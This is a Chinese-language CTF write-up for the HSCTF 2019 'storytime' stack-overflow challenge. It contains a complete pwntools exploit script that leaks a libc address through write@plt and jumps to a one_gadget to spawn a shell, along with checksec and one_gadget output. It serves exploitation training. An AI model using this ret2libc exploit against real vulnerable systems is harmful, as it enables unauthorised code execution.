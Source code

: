 ```yaml
---
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 


title: nightmare 2.15.HS2019-storytime-wp
date: 2023-08-19 21:24:42
tags:
- CTF
- pwn
- HS2019
- stack 
- ret2libc
- nightmare
categories:
- pwn-wp
---
```


[相关资源](https://github.com/guyinatuxedo/nightmare/tree/master/modules/08-bof_dynamic/hs19_storytime)  

## 文件分析

文件夹包含`libc.so.6`，关于替换动态链接库，可见 https://antel0p3.github.io/2023/05/30/change_libc/

```sh
$ checksec storytime
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$ ./storytime
HSCTF PWNNNNNNNNNNNNNNNNNNNN
Tell me a story:

```

## 代码分析

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[48]; // [rsp+0h] [rbp-30h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  write(1, "HSCTF PWNNNNNNNNNNNNNNNNNNNN\n", 0x1DuLL);
  write(1, "Tell me a story: \n", 0x12uLL);
  read(0, buf, 0x190uLL);
  return 0;
}
```

明显存在栈溢出

## 攻击方法

1. 通过调用`write@plt`（第二个参数为`write@got`）来泄露write实际地址进而获取libc基地址，输出后跳转回main待后续攻击

   注意通常只有**程序执行过**的库函数会出现在plt和got中，所以不能直接用`puts`来输出

2. 找到`one_gadget`或构造system pop链，获取shell

   one_gadget安装使用：

   ```sh
   $ apt install ruby
   $ gem install one_gadget
   
   $ one_gadget libc.so.6
   0x45216 execve("/bin/sh", rsp+0x30, environ)
   constraints:
     rax == NULL
   
   0x4526a execve("/bin/sh", rsp+0x30, environ)
   constraints:
     [rsp+0x30] == NULL
   
   0xf02a4 execve("/bin/sh", rsp+0x50, environ)
   constraints:
     [rsp+0x50] == NULL
   
   0xf1147 execve("/bin/sh", rsp+0x70, environ)
   constraints:
     [rsp+0x70] == NULL
   ```

   以上得到的地址在满足条件下可以直接执行`/bin/sh`，可以作为跳转地址，都尝试失败后就只能通过system获取shell了

## exp

```python
from pwn import *
import sys

pty = process.PTY
context(os='linux', arch='i386', log_level='debug')

mode = ''
if len(sys.argv) > 1:
    mode = sys.argv[1]

proc = process("./storytime")
libc = ELF('./libc.so.6')
belf = ELF("./storytime")

def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(): return proc.recv()
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))


gscript = '''
    b main
    b * 0x40069b
    c
'''
if mode == '-d':
    gdb.attach(proc, gdbscript=gscript)

ret = 0x40048e
rdi_ret = 0x400703
rsi_r15_ret = 0x400701
rax_ret = 0x33544
main = 0x40062E
gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

payload = b'h'*0x38		# 填充到ret address
payload += p64(rdi_ret) + p64(1) 	# write(1, write@got, xxx)   第三个参数因为本身就大于write地址长度，可以不管
payload += p64(rsi_r15_ret) + p64(belf.got['write']) + p64(0)
payload += p64(belf.plt['write']) + p64(main)		# 跳转回main
sla(b'story:', payload)
# 获取libc base
libc_base = ga() - libc.sym['write']
success("libc base: " + hex(libc_base))

payload = b'h'*0x38 
payload += p64(libc_base + gadgets[0]) # 跳转执行gadgets
sla(b'story:', payload)

pi()
pause()
```
